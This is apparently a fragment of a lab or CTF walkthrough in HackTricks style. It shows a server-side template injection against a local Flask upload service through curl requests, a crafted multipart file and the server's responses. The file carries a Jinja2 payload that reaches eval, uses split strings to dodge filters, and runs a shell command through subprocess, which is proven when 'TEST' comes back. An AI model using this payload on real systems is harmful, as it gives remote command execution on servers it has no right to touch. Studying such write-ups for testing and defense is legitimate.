 `curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

        <h2>Result:</h2>
        <div>&lt;html&gt;
        &lt;body&gt;
                0 ←
        &lt;/body&gt;
&lt;/html&gt;</div>

[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__.eval("__imp"+"ort__('subprocess').check_output('echo TEST', shel"+"l=True).decode('utf-8')") }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

	<h2>Result:</h2>
	<div>&lt;html&gt;
	&lt;body&gt;
TEST ←
	&lt;/body&gt;
&lt;/html&gt;</div>

[...]
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>
